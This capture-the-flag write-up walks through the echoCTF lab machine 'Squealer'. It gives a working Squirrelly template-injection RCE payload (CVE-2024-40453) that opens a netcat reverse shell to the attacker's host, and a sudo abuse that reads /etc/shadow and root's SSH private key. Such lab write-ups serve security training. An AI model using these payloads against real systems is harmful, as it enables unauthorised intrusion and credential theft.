 ```yaml
---
description: >-
  Squealer echoCTF Machine
title: Squealer (Advanced)                # Add title here
date: 2025-01-30 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Advanced]                     # Change Templates to Writeup
tags: []     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Squealer.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.0.14.48
```

### Content

-   Squirrelly v9.0.0 RCE (CVE-2024-40453)

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
cat allPorts 
# Nmap 7.94SVN scan initiated Fri Jan 31 00:00:23 2025 as: nmap -p- -sS --open --min-rate 500 -Pn -n -vvvv -oG allPorts 10.0.14.48
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.14.48 ()     Status: Up
Host: 10.0.14.48 ()     Ports: 22/open/tcp//ssh///, 3000/open/tcp//ppp///
```
Services and Versions running:
```bash
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 80:99:90:ea:15:e3:ab:62:09:a1:59:9d:20:c4:30:09 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFjX/XcexxANOR9q+NytjakZZrx2A8lxaMLAcqKfUelUyghougQ3NfwE/XK9ijc/f7ENNsxCFoepp7kc5AyVEbI=
|   256 47:7e:f3:6b:c9:68:a1:1e:8e:42:2f:a7:de:59:e9:59 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIN6O2vsvH1hGR3kXu1AfhbkcSzg/6TEcNwzpt+9Q9uEn
3000/tcp open  http    syn-ack ttl 63 Node.js (Express middleware)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### Exploitation

As shown in the netcat output, only port TCP-3000 is open, so we start by accessing to it from a browser just in case there is a website hosted:

![](/assets/img/Pasted-image-20250130234640.png)

From here there is a hint about the Template Engine, which makes us think about SSTI vulnerabilities, searching for an exploit on this I found this [Squirrelly v9.0.0 RCE](https://samuzora.com/posts/cve-2024-40453) with an excellent explanation with all the details we need to know, first of all to try out if the server might be vulnerable the following payload is used:

```bash
http://10.0.14.48:3000/?useWith=1&varName=console.log(%22x%22)
```
According with the blog post, if there is an error, then we are on the right way:
![](/assets/img/Pasted-image-20250130235003.png)

Then by reading all the blog, we identify the following payload that allows us to get a reverse shell:
```bash
http://10.0.14.48:3000/?useWith=1&varName=%7B%20a:%20b%20=%20global.process.mainModule.require(%22child_process%22).execSync(%22nc%20-e%20/bin/sh%2010.10.5.122%201234%22)%20%7D
```
And then we have a reverse shell as user `ETSCTF`:
```bash
nc -lvnp 1234     
listening on [any] 1234 ...
connect to [10.10.5.122] from (UNKNOWN) [10.0.14.48] 49658
python3 -c 'import pty; pty.spawn("/bin/bash")'
ETSCTF@squealer:/opt/app$
```

### Privilege Escalation

For privilege escalation there is a binary that can be executed as sudo without password:
```bash
ETSCTF@squealer:/opt/app$ sudo -l
Matching Defaults entries for ETSCTF on squealer:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User ETSCTF may run the following commands on squealer:
    (ALL : ALL) NOPASSWD: /opt/node/bin/clisquir
```

Reading its content it seems that there is another squirrelly app within:
```bash
ETSCTF@squealer:/opt/app$ cat /opt/node/bin/clisquir
#!/opt/node/bin/node
var Sqrl = require('squirrelly')
var args = process.argv.slice(2);

var template = args[0];
var val = JSON.parse(args[1]) || { user: 'cool person' };
console.log(Sqrl.renderFile(template, val));
```

Searching for some payloads to exploit this kind of implementation I got this payload that allows Arbitrary File Read:

```bash
ETSCTF@squealer:/opt/app$ sudo /opt/node/bin/clisquir "/etc/shadow" '{}'
```
Finally to get root all it lefts is to read the id_rsa from root:
```bash
ETSCTF@squealer:/opt/app$ sudo /opt/node/bin/clisquir "/root/.ssh/id_rsa" '{}'
```
Run the `ssh -i id_rsa` and you'll get a root shell... AND WE ARE INSIDE!!!


### Post Exploitation

Flags are stored at:

`/etc/passwd`
`/etc/shadow`
`environment variables (env command)`
`/root`

### Credentials

No credentials were found or needed.

### Notes

-   Simple exploits, nothing fancy here.

### References

- [Squirrelly v9.0.0 RCE](https://samuzora.com/posts/cve-2024-40453)

